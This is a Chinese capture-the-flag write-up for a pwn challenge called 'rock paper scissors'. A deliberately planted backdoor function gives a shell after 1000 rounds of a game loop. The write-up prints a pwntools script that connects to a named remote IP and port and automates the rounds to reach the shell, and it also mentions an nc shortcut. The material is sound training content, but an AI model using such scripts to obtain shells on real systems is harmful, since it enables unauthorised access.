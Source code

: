 # **石头剪刀布：**

拿到可执行文件，拖到IDA里看源码：

首先是一个1000次的for循环

![image-20240520175408557](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520175408557.png)

我们可以发现当循环1000次执行后，才会执行我们的后门函数：

![image-20240520175547344](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520175547344.png)

所以现在关键就是如何让这1000次的循环运行完：

到这儿有两种解法：

**第一种**是基于pwntools写一个脚本，接受程序的输出，再向程序输入，主要考察对pwn工具pwntools的使用

脚本如下：（这个脚本是按照石头剪刀布的玩法进行相应的接收和输入，但其实石头剪刀的输赢是没关系的，只要循环1000次就可以了）

```
from pwn import *

p = remote("81.69.243.226", 60579)

# p = process("./rock_paper_scissors")

i = 0

# gdb.attach(p)

for i in range(0,1000):
    p.recvuntil("Computer: \n", drop=True)
    p.recvuntil("->", drop=True)
    str = p.recvline().strip() 
    print(str)
    if str == b'Rock':
        p.recvline(b'You')
        p.sendline("p")
    elif str == b'Scissor':
        p.recvline(b'You')
        p.sendline("r")
    elif str == b'Paper':
        p.recvline(b'You')
        p.sendline("s")
p.interactive()
```

![image-20240520181243938](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520181243938.png)

这里运行的时间会久一点，毕竟有1000次，可以看到我们不仅成功拿到shell，而且也赢了1000次的石头剪刀布✌

![image-20240520181350975](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520181350975.png)

**第二种：**就是直接nc连接，直接输入1000个字符，r,s,p都可以：

![image-20240520181542062](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520181542062.png)


尽管输了，但还是拿到shell啦

![image-20240520180907888](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520180907888.png)

